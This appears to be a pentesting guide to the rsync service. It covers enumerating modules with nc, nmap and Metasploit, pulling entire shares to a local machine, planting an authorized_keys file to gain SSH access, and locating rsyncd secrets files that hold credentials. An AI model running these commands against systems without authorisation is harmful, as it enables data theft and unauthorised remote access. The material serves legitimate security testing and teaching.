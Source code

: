 # 873 - Pentesting Rsync

## **Basic Information**

> **rsync** is a utility for efficiently [transferring](https://en.wikipedia.org/wiki/File_transfer) and [synchronizing](https://en.wikipedia.org/wiki/File_synchronization) [files](https://en.wikipedia.org/wiki/Computer_file) between a computer and an external hard drive and across [networked](https://en.wikipedia.org/wiki/Computer_network) [computers](https://en.wikipedia.org/wiki/Computer) by comparing the [modification times](https://en.wikipedia.org/wiki/Timestamping_\(computing\))and sizes of files.[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) It is commonly found on [Unix-like](https://en.wikipedia.org/wiki/Unix-like) [operating systems](https://en.wikipedia.org/wiki/Operating_system). The rsync algorithm is a type of [delta encoding](https://en.wikipedia.org/wiki/Delta_encoding), and is used for minimizing network usage. [Zlib](https://en.wikipedia.org/wiki/Zlib) may be used for additional [data compression](https://en.wikipedia.org/wiki/Data_compression),[\[3\]](https://en.wikipedia.org/wiki/Rsync#cite_note-man_page-3) and [SSH](https://en.wikipedia.org/wiki/Secure_Shell) or [stunnel](https://en.wikipedia.org/wiki/Stunnel) can be used for security.

From [wikipedia](https://en.wikipedia.org/wiki/Rsync).

**Default port:** 873

```
PORT    STATE SERVICE REASON
873/tcp open  rsync   syn-ack
```

## Enumeration

### Banner & Manual communication

```
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0        <--- You receive this banner with the version from the server
@RSYNCD: 31.0        <--- Then you send the same info
#list                <--- Then you ask the sever to list
raidroot             <--- The server starts enumerating
USBCopy        	
NAS_Public     	
_NAS_Recycle_TOSRAID	<--- Enumeration finished
@RSYNCD: EXIT         <--- Sever closes the connection


#Now lets try to enumerate "raidroot"
nc -vn 127.0.0.1 873
(UNKNOWN) [127.0.0.1] 873 (rsync) open
@RSYNCD: 31.0
@RSYNCD: 31.0
raidroot
@RSYNCD: AUTHREQD 7H6CqsHCPG06kRiFkKwD8g    <--- This means you need the password
```

### **Enumerate shared folders**

**An rsync module is essentially a directory share**. These modules **can optionally be protected by a password**. This options lists the available modules and, optionally, determines if the module requires a password to access**:**

```bash
nmap -sV --script "rsync-list-modules" -p <PORT> <IP>
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730
```

Notice that it could be configured a shared name to not be listed. So there could be something **hidden**.\
Notice that it may be some **shared names** being listed where you need some (different) **credentials **to access. So, not always all the listed names are going to be accessible and you will notice it if you receive an _**"Access Denied"**_ message when trying to access some of those.

### ****[**Brute force**](../brute-force.md#rsync)

### Manual Rsync

Once you have the **list of modules** you have a few different options depending on the actions you want to take and whether or not authentication is required. **If authentication is not required **you can **list **a shared folder:

```bash
rsync -av --list-only rsync://192.168.0.123/shared_name
```

And **copy **all **files **to your local machine via the following command:

```bash
rsync -av rsync://192.168.0.123:8730/shared_name ./rsyn_shared
```

This **recursively transfers all files from the directory** `<shared_name>` on the machine `<IP>`into the `./rsync_shared` directory on the local machine. The files are transferred in "archive" mode, which ensures that symbolic links, devices, attributes, permissions, ownerships, etc. are preserved in the transfer.

If you **have credentials **you can **list/download** a **shared name **using (the password will be prompted):

```bash
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared
```

You could also **upload **some **content **using rsync (for example, in this case we can upload an _**authorized_keys **_file to obtain access to the box):

```bash
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```

## POST

Find the rsyncd configuration file:

```bash
find /etc \( -name rsyncd.conf -o -name rsyncd.secrets \)
```

Inside the config file sometimes you could find the parameter _secrets file = /path/to/file_ and this file could contains usernames and passwords allowed to authenticate to rsyncd.

